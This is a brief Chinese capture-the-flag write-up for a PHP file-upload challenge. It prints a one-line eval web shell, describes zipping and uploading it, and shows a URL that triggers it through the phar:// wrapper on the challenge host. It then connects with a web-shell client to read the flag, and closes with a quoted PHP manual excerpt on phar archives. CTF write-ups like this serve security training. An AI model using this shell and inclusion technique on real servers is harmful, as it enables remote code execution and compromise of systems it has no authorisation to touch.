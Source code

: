 #PHP  #文件上传 

shell.php
```php
<?php eval(@$_POST['hack']); ?>
```
压缩文件为 shell.zip 并上传

利用 phar 
```text
http://node1.anna.nssctf.cn:28192/index.php?bingdundun=phar://76ab8b96cd88e20eca5b3d23524285b4.zip/shell
```

此时访问 url ,用蚁剑连接，flag在根目录下，  \

[PHP: 简介 - Manual](https://www.php.net/manual/zh/intro.phar.php)

phar 扩展提供了一种将整个 PHP 应用程序放入单个叫做“phar”（PHP 归档）文件的方法，以便于分发和安装。
什么是 phar？phar 归档的最佳特征是可以将多个文件组合成一个文件。 因此，phar 归档提供了在单个文件中分发完整的 PHP 应用程序并无需将其解压缩到磁盘而直接运行文件的方法。此外，phar 归档可以像任何其他文件一样由 PHP 在命令行和 Web 服务器上执行。phar 有点像 PHP 应用程序的移动存储器。

phar:// — PHP 归档